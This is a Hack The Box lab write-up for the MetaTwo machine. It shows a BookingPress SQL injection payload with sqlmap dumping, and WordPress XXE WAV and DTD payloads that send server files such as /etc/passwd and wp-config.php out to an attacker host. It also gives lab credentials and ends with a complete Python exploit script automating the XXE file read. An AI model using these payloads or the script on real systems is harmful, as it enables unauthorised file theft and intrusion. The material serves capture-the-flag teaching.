

This is a easy linux machine. In port 80 is running a WordPress vulnerable **SQL Injection and WordPress XXE Vulnerability**. Accessing file config wordpress, you gain credential FTP. In FTP there’re credential `jnelson` user. Logging SSH, you will escalate priv by  `passpie`.

The exploit for this machine is on the end of the post.

**Have a good time!**


# Introdution

[https://app.hackthebox.com/machines/MetaTwo](https://app.hackthebox.com/machines/MetaTwo)

* **IP:** 10.10.11.186


## Diagram



# Enumeration

First step is to enumerate the box. For this we’ll use `nmap`.

```bash
ports=$(sudo nmap -p- -Pn --min-rate=1000 -T4 10.10.11.186 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) && sudo nmap -Pn -sC -sV -p $ports 10.10.11.186
```


Nmap tell us there are three open ports **`21 ftp`** **`22 ssh`** and **`80 http`** and HTTP port redirect to **http://metapress.htb/**

Add that in `/etc/hosts` file.

## Port 80 (HTTP)

### Metapress.htb

The web page is provided by **`WordPress`** and Its version is vulnerable, but the **`exploit`** will only work when we are authenticated.


Going over to **`/events/`** page, it's listed the **`information`** of events.


Checking the **`source code`** of that page, we got to know that it's using **`booking press 1.0.10`.** Let's check the **`exploit`** for that specific version.


# Exploration

## CVE-2022-0739

> Refer: [https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357](https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357)
>
> ***The plugin fails to properly sanitize user supplied POST data before it is used in a dynamically constructed SQL query via the bookingpress_front_get_category_services AJAX action (available to unauthenticated users), leading to an unauthenticated SQL Injection***
>
{: .prompt-info }

For the **`exploit`** work, we need some info about **`_wpnonce`** which can be found in **`events`** page source code


Now we have two options, is to dump the **`database`** manually or use some automation tool like **`sqlmap`** I am doing it with **`second`** option so that **`write up`** will be short. For that, we need to **`capture`** the request into **`burp`** Let's use **`-x`** flag for passing the **`proxy`** address.

```bash
curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=009552bc5f&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -' -x http://127.0.0.1:8080
```

Capture the request in **`burp`** and save it into a file called **`admin.req`**


For **`sqlmap`** works, we need to remove the **`injection`** query to any **`number`**, or you can leave that **`parameter`** empty.


That's the final look for the **`admin.req`** file

### Dumping the database with Sqlmap

Now let's run the **`sqlmap`**

```bash
sqlmap -r admin.req -p total_service --batch
```

And the parameter is **`injectable`** let's list out all the **`databases`**

```bash
sqlmap -r admin.req -p total_service --dbs
```


Selecting **`blog`** database. After that, let's list the **`tables`** of the **`blog`** database.

```bash
sqlmap -r admin.req -p total_service -D blog --tables
```


Dumping the **`wp_users`** table

```bash
sqlmap -r admin.req -p total_service -D blog -T wp_users --dump
```


Got the **`user`** password hashes, Let's **`crack`** that with john

```bash
john hashes -w=/usr/share/wordlists/rockyou.txt
```


> User: **manager**
>
> Pass: **partylikearockstar**
 

`http://metapress.htb/wp-login.php`


## CVE-2021-29447

> Refer : **[https://tryhackme.com/room/wordpresscve202129447](https://tryhackme.com/room/wordpresscve202129447)**
>
> Researchers at security firm SonarSource discovered an XML external entity injection (XXE) security flaw in the WordPress Media Library. The vulnerability can be exploited only when this CMS runs in PHP 8 and the attacking user has permissions to upload media files. Take note of the latter condition as we walk through an example of exploiting this vulnerability below.
>
{: .prompt-info }

For the **`exploitation`**, we need to create a **`WAV`** file which will fetch the another file called **`0xetern4lw0lf.dtd`** which has our malicious content inside.

```bash
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://10.10.14.7:9090/etern4lw0lf.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```

Now let's create **`etern4lw0lf.dtd`** file which will read the **`/etc/passwd`** file and convert that into **`base64`** and send that data in **`GET`** request on our **`php`** server

**`etern4lw0lf.dtd` :**

```bash
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.14.7:9090/?p=%file;'>" >
```

Starting the **`PHP`** server

```bash
php -S 0.0.0.0:9090
```

Now let's **`upload`** the **`payload.wav`** file


And we got the **`base64`** encoded value


```bash
echo "cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFlbW9uOi91c3Ivc2JpbjovdXNyL3NiaW4vbm9sb2dpbgpiaW46eDoyOjI6YmluOi9iaW46L3Vzci9zYmluL25vbG9naW4Kc3lzOng6MzozOnN5czovZGV2Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5bmM6eDo0OjY1NTM0OnN5bmM6L2JpbjovYmluL3N5bmMKZ2FtZXM6eDo1OjYwOmdhbWVzOi91c3IvZ2FtZXM6L3Vzci9zYmluL25vbG9naW4KbWFuOng6NjoxMjptYW46L3Zhci9jYWNoZS9tYW46L3Vzci9zYmluL25vbG9naW4KbHA6eDo3Ojc6bHA6L3Zhci9zcG9vbC9scGQ6L3Vzci9zYmluL25vbG9naW4KbWFpbDp4Ojg6ODptYWlsOi92YXIvbWFpbDovdXNyL3NiaW4vbm9sb2dpbgpuZXdzOng6OTo5Om5ld3M6L3Zhci9zcG9vbC9uZXdzOi91c3Ivc2Jpbi9ub2xvZ2luCnV1Y3A6eDoxMDoxMDp1dWNwOi92YXIvc3Bvb2wvdXVjcDovdXNyL3NiaW4vbm9sb2dpbgpwcm94eTp4OjEzOjEzOnByb3h5Oi9iaW46L3Vzci9zYmluL25vbG9naW4Kd3d3LWRhdGE6eDozMzozMzp3d3ctZGF0YTovdmFyL3d3dzovdXNyL3NiaW4vbm9sb2dpbgpiYWNrdXA6eDozNDozNDpiYWNrdXA6L3Zhci9iYWNrdXBzOi91c3Ivc2Jpbi9ub2xvZ2luCmxpc3Q6eDozODozODpNYWlsaW5nIExpc3QgTWFuYWdlcjovdmFyL2xpc3Q6L3Vzci9zYmluL25vbG9naW4KaXJjOng6Mzk6Mzk6aXJjZDovcnVuL2lyY2Q6L3Vzci9zYmluL25vbG9naW4KZ25hdHM6eDo0MTo0MTpHbmF0cyBCdWctUmVwb3J0aW5nIFN5c3RlbSAoYWRtaW4pOi92YXIvbGliL2duYXRzOi91c3Ivc2Jpbi9ub2xvZ2luCm5vYm9keTp4OjY1NTM0OjY1NTM0Om5vYm9keTovbm9uZXhpc3RlbnQ6L3Vzci9zYmluL25vbG9naW4KX2FwdDp4OjEwMDo2NTUzNDo6L25vbmV4aXN0ZW50Oi91c3Ivc2Jpbi9ub2xvZ2luCnN5c3RlbWQtbmV0d29yazp4OjEwMToxMDI6c3lzdGVtZCBOZXR3b3JrIE1hbmFnZW1lbnQsLCw6L3J1bi9zeXN0ZW1kOi91c3Ivc2Jpbi9ub2xvZ2luCnN5c3RlbWQtcmVzb2x2ZTp4OjEwMjoxMDM6c3lzdGVtZCBSZXNvbHZlciwsLDovcnVuL3N5c3RlbWQ6L3Vzci9zYmluL25vbG9naW4KbWVzc2FnZWJ1czp4OjEwMzoxMDk6Oi9ub25leGlzdGVudDovdXNyL3NiaW4vbm9sb2dpbgpzc2hkOng6MTA0OjY1NTM0OjovcnVuL3NzaGQ6L3Vzci9zYmluL25vbG9naW4Kam5lbHNvbjp4OjEwMDA6MTAwMDpqbmVsc29uLCwsOi9ob21lL2puZWxzb246L2Jpbi9iYXNoCnN5c3RlbWQtdGltZXN5bmM6eDo5OTk6OTk5OnN5c3RlbWQgVGltZSBTeW5jaHJvbml6YXRpb246LzovdXNyL3NiaW4vbm9sb2dpbgpzeXN0ZW1kLWNvcmVkdW1wOng6OTk4Ojk5ODpzeXN0ZW1kIENvcmUgRHVtcGVyOi86L3Vzci9zYmluL25vbG9naW4KbXlzcWw6eDoxMDU6MTExOk15U1FMIFNlcnZlciwsLDovbm9uZXhpc3RlbnQ6L2Jpbi9mYWxzZQpwcm9mdHBkOng6MTA2OjY1NTM0OjovcnVuL3Byb2Z0cGQ6L3Vzci9zYmluL25vbG9naW4KZnRwOng6MTA3OjY1NTM0Ojovc3J2L2Z0cDovdXNyL3NiaW4vbm9sb2dpbgo=" | base64 -d
```


So let's get the WordPress **`wp-config.php`** file, but for that we need the **`path`** for that directory In the past we see it's running **`nginx`** let's get the nginx **`configuration`**

```bash
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/nginx/sites-enabled/default">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.14.7:9090/?p=%file;'>" >
```


And we got the path **`/var/www/metapress.htb/blog`**

```bash
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/var/www/metapress.htb/blog/wp-config.php">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.14.7:9090/?p=%file;'>" >
```


- FTP user creads
    
    > User: **metapress.htb**
    >
    > Pass: **9NYS_ii@FyL_p5M2NvJ**
     

Successfully login inside the **`FTP`** server


Got a **`send_email.php`** file


- Creads For Jnelson User
    
    > User: **jnelson**
    >
    > Pass: **Cb4_JmWM8zUZWMu@Ys**
     

```bash
ssh jnelson@10.10.11.186
```


# Post Exploration

## Privilege Escalation

Before running **`linPEAS`** I notice a unique directory called **`.passpie`** inside **`jnelson`** user directory Searching over google for **`passpie`** got a tool which is **`Command-line password manager`** written in python

> Refer : **[https://github.com/marcwebbie/passpie](https://github.com/marcwebbie/passpie)**
Passpie is a command line tool to manage passwords from the terminal with a colorful and configurable interface. Use a master passphrase to decrypt login credentials, copy passwords to clipboard, syncronize with a git repository, check the state of your passwords, and more.
> 

Looking over it, It has the **`root password`** stored in **`PGP`** format which is encrypted with a **`key`.**

And we also have the key file called **`.keys`.**


Let's try to crack that PGP **`key`** file, but first let's transfer that into our machine

```bash
scp jnelson@10.10.11.186:.passpie/.keys .keys
```

Convert that into **`john`** format

```bash
gpg2john key > gpg.john
```


The **`.keys`** file contain two **`PGP KEY BLOCK`**, I remove the public ones.

```bash
john gpg.john -w=/usr/share/wordlists/rockyou.txt
```


Checking the list of **`passpie`** if they have any, another user


Export the passwords in **`pass`** file


> User: **root**
>
> Pass: **p7qfAZt4_A1xo_0x**


**HABEMUS ROOT!**

# Script Read File Exploit

This is a script in python that allow read files this machine.

`metatwo-readfile.py`

```python
#! /usr/bin/env python3

#### Title: Exploit Read File - WordPress XXE Vuln Authenticated
#### Author: 0xEtern4lW0lf
#### Created: 29 Dez 2022
#### Description: This exploits the WordPress XXE vulnerability. Allow read server files.
#### CVE-2021-29447
#### Refer: https://tryhackme.com/room/wordpresscve202129447

#### ========= MODULES =========

# python server
import subprocess, sys, os

# http lib
import requests

import argparse
import base64
import time
import re

#### ========= VARIABLE =========

#### COLORS ####
RED = "\033[1;91m"
YELLOW = "\033[1;93m"
BLUE = "\033[1;94m"
GREEN = "\033[1;92m"
END = "\033[1;m"

## Set proxy [OPTIONAL]
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}

#### ========= FUNCTION =========

## Banner
def banner():
  EwLogo = f"""

⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⡀⠀⠀⠀⠀⠀⠀⣀⠠⠤⢤⣤⣶⣴⣦⣤⣤⣀⡀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⣿⣿⣿⣿⣿⣿⣿⣿⣿⡞⠀⠀⠀⠀⠀⠀⠀⠀⠉⠉⠛⠻⢿⣷⣄⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠻⣄⠈⠉⠛⠿⠟⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠐⡯⣿⣷⡄⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠰⢾⣿⣿⠟⠋⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⢌⡻⢿⡆⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⠝⣄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⣷⡌⠿⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⣴⠋⠀⣸⣧⣄⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠸⣿⡄⠁
⠀⠀⠀⠀⠀⠀⠀⢀⣾⣏⣴⠟⢻⣿⠟⠛⠶⡄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⠀⢻⣿⡀
⠀⠀⠀⠀⠀⠀⠀⣼⣿⣿⣿⣴⠿⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢹⢳⣜⣿⡇
⠀⠀⠀⠀⠀⣠⣾⣿⠟⠋⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⡇⢿⣿⡇
⠀⠀⢀⣤⣾⡿⠋⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⣿⠸⣿⠇
⢀⣴⣿⡿⠋⠀⠀⠀⠀⠀⣀⣤⣶⣶⣦⣄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⠀⠀⢸⣿⡄⡿⠀
⢺⣿⡏⠀⠀⠀⠀⢀⣤⣾⣿⠿⠛⠋⠙⠻⣇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⡝⣦⠀⣸⣿⡧⠃⠀
⠀⠈⠉⠀⢠⣤⣶⣿⡿⠋⠀⠀⠀⠀⠀⡀⠈⠂⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢠⡇⣿⣷⣿⣿⠀⠀⠀
⠀⠀⠀⠀⠀⠈⠉⠉⠁⠀⠀⠀⠀⢀⡜⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⡆⠀⠀⣼⡇⣾⣿⣿⠇⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣴⠏⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣴⢻⣿⣀⣾⣿⢡⣿⡿⠋⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣰⣿⠏⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⣴⡿⢣⣿⣿⣿⣿⣣⡿⠋⠁⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⣰⣿⡿⠀⠀⠀⠀⠀⣀⣠⣤⣴⣶⣿⠿⣋⣴⣿⣿⠿⠛⠉⠁⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⢀⣿⣿⡇⠀⢀⣠⣶⣿⣿⡿⠟⠋⠉⠐⠊⠉⠉⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⢸⣿⣿⣇⣴⣿⣿⡿⠟⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠸⣿⣿⣿⣿⣿⠋⠀⠀⠀⠀⠀{RED}#--------------------------------------------#
 _____  _                         ___  _  _    _  _____  _   __ 
|  ___|| |                       /   || || |  | ||  _  || | / _|
| |__  | |_   ___  _ __  _ __   / /| || || |  | || |/' || || |_ 
|  __| | __| / _ \| '__|| '_ \ / /_| || || |/\| ||  /| || ||  _|
| |___ | |_ |  __/| |   | | | |\___  || |\  /\  /\ |_/ /| || |  
\____/  \__| \___||_|   |_| |_|    |_/|_| \/  \/  \___/ |_||_|  
                                                                
#----------------------------------------------------------------# 
    
    Author: {GREEN}0xEtern4lW0lf{END}                           
    {RED}Site: {BLUE}https://0xetern4lw0lf.github.io/{END}

    FOR EDUCATIONAL PURPOSE ONLY.

  """
  return print(f'{BLUE}{EwLogo}{END}')

# Pretty loading wheel
def loading(spins):

    def spinning_cursor():
        while True:
            for cursor in '|/ -\\':
                yield cursor

    spinner = spinning_cursor()
    for _ in range(spins):
        sys.stdout.write(next(spinner))
        sys.stdout.flush()
        time.sleep(0.1)
        sys.stdout.write('\b')

def argument_parser():
    """Parse argument provided to the script."""
    parser = argparse.ArgumentParser(description='WordPress CVE-2021-29447 Authenticated Exploit')

    parser.add_argument("-l", "--lhost",
                        required=True,
                        type=str,
                        help="Local IP")

    parser.add_argument("-lp", "--lport",
                        required=True,
                        type=int,
                        help="Local Port")

    parser.add_argument("-t", "--target",
                        required=True,
                        type=str,
                        help="Target WordPress URL, eg: http://XXXX.com")

    parser.add_argument("-f", "--file",
                        type=str,
                        help="File read, eg: /etc/passwd")

    parser.add_argument("-u", "--user",
                        required=True,
                        type=str,
                        help="Username used for WordPress authentication")

    parser.add_argument("-p", "--password",
                        required=True,
                        type=str,
                        help="Password used for WordPress authentication")
    
    args = parser.parse_args()

    return args

############## Weaponization ##############

############## PYTHON SERVER ##############

"""Start Python WebServer locally on port specified."""
def start_python_server(lport):
    python_server = subprocess.Popen([sys.executable, "-m", "http.server", str(lport)], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, text=True)

    os.set_blocking(python_server.stdout.fileno(), False)

    print(f"\n{BLUE}[+] PYTHON SERVER: {YELLOW}Python Server start in port {GREEN}{lport} {BLUE}[+]{END}")

    return python_server
    

"""Stop Python WebServer."""  
def stop_python_server(python_server):
    python_server.terminate()

    print(f"\n{BLUE}[+] PYTHON SERVER: {YELLOW}Python Server Stopped {BLUE}[+]{END}")

############## ============== ##############

############## PAYLOADS ##############

def createEvilWAV(lhost, lport):
    """Generate malicious WAV payload."""
    payload = b"""RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM 'http://""" + f"{lhost}:{lport}".encode('utf-8') + b"""/malicious.dtd'>%remote;%init;%trick;]>\x00"""

    print(f"\n{BLUE}[+] PAYLOAD: {YELLOW}Payload file WAV created! {BLUE}[+]{END}")

    return payload

def createEvilDTD(lhost, lport, targetFile):
    """Generate malicious DTD payload and store it locally."""
    with open('malicious.dtd', 'w') as file:
        file.write(f"""<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource={targetFile}">\n""")
        file.write(f"""<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://{lhost}:{lport}/?p=%file;'>" >""")

    print(f"{BLUE}[+] PAYLOAD: {YELLOW}Payload file DTD created! {BLUE}[+]{END}")

############## ======= ##############

################# Attack #################

def loginWP(rhost, user, password):
    """Check authenticated connection to WordPress server ."""

    data = {
      'log': user,
      'pwd': password,
      'wp-submit': "Log+In",
      'redirect_to': rhost + "/wp-admin/",
      'testcookie': 1
    }

    r = requests.post(f"{rhost}/wp-login.php", data=data)

    if r.status_code == 200:
        print(f"\n{BLUE}[+] LOGIN WP: {YELLOW}WordPress Logged {GREEN}SUCCESSFULLY! {BLUE}[+]{END}")

    return r.cookies

def sendPayload(rhost, cookies, payload):
    """Retrieve _wpnonce from WordPress."""

    r = requests.get(f'{rhost}/wp-admin/media-new.php', cookies=cookies, proxies=proxies)

    wp_nonce = re.findall(r'name="_wpnonce" value="(\w+)"', r.text)[0]

    """Upload payload to WorPress vulnerable media feature."""
    file_data = {'async-upload': ('malicious.wav', payload)}

    data = {
        'name': 'malicous.wav',
        'action': 'upload-attachment',
        '_wpnonce': wp_nonce
    }

    r = requests.post(f'{rhost}/wp-admin/async-upload.php', data=data, files=file_data, cookies=cookies)

    if r.status_code == 200:
        if r.json()['success']:
            print(f"\n{BLUE}[+] UPLOAD FILE: {YELLOW}File WAV upload SUCCESSFULLY! {BLUE}[+]{END}")

def readFile(python_server,targetFile):
    """Retrieve information and files from Python WebServer stdout."""
    payload_printed = False
    retrieved_file_printed = False
    printing_error = False

    for line in python_server.stdout.readlines():

        if re.search(r'^Traceback', line):
            printing_error = True

        if printing_error:
            print(line)
            continue

        if re.search(r'GET \/malicious\.dtd', line):
            if not payload_printed:
                payload_printed = True

        if re.search(r'\/\?p=', line):
            if not retrieved_file_printed:
                matched_file = re.search(r'\/\?p=(.+?)\s', line)
                if matched_file:
                    file = matched_file.group(1)
                    print(f"{BLUE}[+] READ FILE: {GREEN}{targetFile} {YELLOW}file content {BLUE}[+]{END}\n")
                    print(base64.b64decode(file).decode('utf-8'))
                retrieved_file_printed = True

    if payload_printed and not retrieved_file_printed:
        print(f"\n{BLUE}[+] ERROR: {RED}File not found on server or not permission to read it {BLUE}[+]{END}")

    if not payload_printed and not retrieved_file_printed:
        print(f"\n{BLUE}[+] ERROR: {RED}Error WAV payload not executed on WordPress {BLUE}[+]{END}")

    if printing_error:
        print(f"\n{BLUE}[+] ERROR: {RED}Exiting... {BLUE}[+]{END}")
        exit(1)

def clean_temporary_files():
    """Remove temporary file used by script (DTD payload)."""
    os.remove('malicious.dtd')

def main():

    args = argument_parser()
    lhost = args.lhost
    lport = args.lport
    rhost = args.target
    user = args.user
    password = args.password
    targetFile = args.file

    cookies = loginWP(rhost, user, password)
 
    python_server = start_python_server(lport)

    payload = createEvilWAV(lhost, lport)

    createEvilDTD(lhost, lport, targetFile)
    
    sendPayload(rhost, cookies, payload)
    
    time.sleep(2)

    readFile(python_server, targetFile)

    stop_python_server(python_server)

    clean_temporary_files()

#### EXECUTION

if __name__ == '__main__':
    banner()
    main()
```


 More scripts in [https://github.com/0xEtern4lW0lf](https://github.com/0xEtern4lW0lf).